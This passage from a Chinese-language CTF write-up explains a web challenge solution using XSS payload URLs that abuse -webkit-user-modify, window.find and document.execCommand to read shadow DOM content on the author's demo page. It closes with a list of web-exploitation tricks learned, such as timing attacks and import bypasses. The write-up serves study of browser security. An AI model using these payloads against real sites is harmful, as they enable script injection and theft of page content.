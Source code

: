 底下是幾個會失敗的 payload：

```
// 沒有 focus
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="document.execCommand('insertHTML',false,'<svg/onload=alert(this.parentNode.innerHTML)>')">

// 用了不是 svg 的元素，會讀不到 this.parentNode
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('insertHTML',false,'<img/src=x+onerror=alert(this.parentNode.innerHTML)>')">
```

但神奇的事情是，如果在前面先加上 `document.exec('selectAll')`，就可以：

```
https://aszx87410.github.io/demo/misc/shadow.html?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('selectAll');document.execCommand('insertHTML',false,'<img/src=x+onerror=alert(this.parentNode.parentNode.innerHTML)>')">
```

為什麼會有這個差異呢？我也不知道，解出來的人似乎也不知道XD

除了學到 [window.find](https://developer.mozilla.org/en-US/docs/Web/API/Window/find) 這個神奇的 API 以外，從 Discord 的賽後討論也學到了另一個隱藏 API：`document.execCommand('findString', false, 'steal')`，他們說是從 Chromium source code 裡面看到的：https://chromium.googlesource.com/chromium/src/+/refs/tags/100.0.4875.3/third_party/blink/renderer/core/editing/commands/editor_command_names.h#35

這邊留下三個坑，未來有機會再補：

1. 研究一下所有 `document.execCommand` 可以執行的指令
2. 研究一下所有 global function
3. 研究一下所有 Chrome 支援的 CSS 屬性

## 總結

雖然 10 題裡面只打出 1 題 web，但還是收穫滿滿，筆記一下這次學到的新知識：

1. Node.js 會把模組用 function 包起來
2. 不能用 `import "fs"` 但可以用 `import("fs").then()`
3. JS 有些字元轉大小或小寫之後長度會變
4. `RegExp.input` 也就是 `RegExp.$_`，可以拿到最後比對的輸入
5. `<svg><svg onload=alert()>` 是同步執行的，這個真的神奇
6.  可以把 connection pool 塞滿來執行 timing attack
7. `-webkit-user-modify` 可以做到跟 `contenteditable` 差不多的事情
8. `window.find` 跟 `document.execCommand('findString', false, 'steal')` 可以反白選取相對應字串

感覺這次學到的技巧其他 CTF 也很有機會派上用場。